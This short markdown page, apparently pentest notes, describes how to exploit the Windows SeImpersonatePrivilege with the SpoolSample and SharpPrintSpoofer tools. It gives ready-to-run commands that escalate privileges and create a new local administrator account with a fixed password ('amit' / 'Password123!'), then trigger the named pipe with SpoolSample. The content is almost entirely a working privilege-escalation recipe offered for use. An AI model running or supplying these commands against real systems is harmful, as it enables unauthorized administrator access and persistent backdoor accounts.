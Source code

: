 # Leveraging SeImpersonatePrivilege
- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
```
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net user amit Password123! /add"
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net localgroup administrators amit /add"
```

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test`
